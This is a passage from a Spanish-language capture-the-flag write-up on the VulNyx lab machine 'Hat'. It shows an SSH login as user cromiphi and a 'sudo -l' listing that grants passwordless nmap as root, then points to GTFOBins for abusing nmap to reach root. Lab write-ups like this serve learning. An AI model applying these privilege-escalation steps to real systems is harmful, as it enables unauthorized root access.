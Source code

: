```bash
❯ ssh -6 -i id_rsa cromiphi@fe80::a00:27ff:fe7b:83a2%enp0s3
The authenticity of host 'fe80::a00:27ff:fe7b:83a2%enp0s3 (fe80::a00:27ff:fe7b:83a2%enp0s3)' can't be established.
ECDSA key fingerprint is SHA256:FVPw1/oC2m9PbWXT/7H0/iIBjVYsimczYCKqVmrwjBw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'fe80::a00:27ff:fe7b:83a2%enp0s3' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux Hat 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
cromiphi@Hat:~$ id
uid=1000(cromiphi) gid=1000(cromiphi) grupos=1000(cromiphi),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Y por fin estoy dentro de la máquina como el usuario cromiphi.

Llegados a este paso ya podemos leer la flag de usuario.

Y ya para finalizar solo nos quedaría escalar privilegios y convertirnos en el usuario root.

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

Para ello lo primero que hago es enumerar permisos de sudo con el comando `sudo -l`

```bash
cromiphi@Hat:~$ sudo -l
Matching Defaults entries for cromiphi on Hat:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cromiphi may run the following commands on Hat:
    (root) NOPASSWD: /usr/bin/nmap
```

Podemos ejecutar el binario nmap como root sin contraseña, por lo que ahí está la manera de escalar privilegios.

Y como de costumbre nos dirigimos a la web de gtfobins y vemos como podemos abusar del binario nmap para escalar privilegios.

![](/assets/images/VULNYX/Hat-Vulnyx/nmap-root.webp)
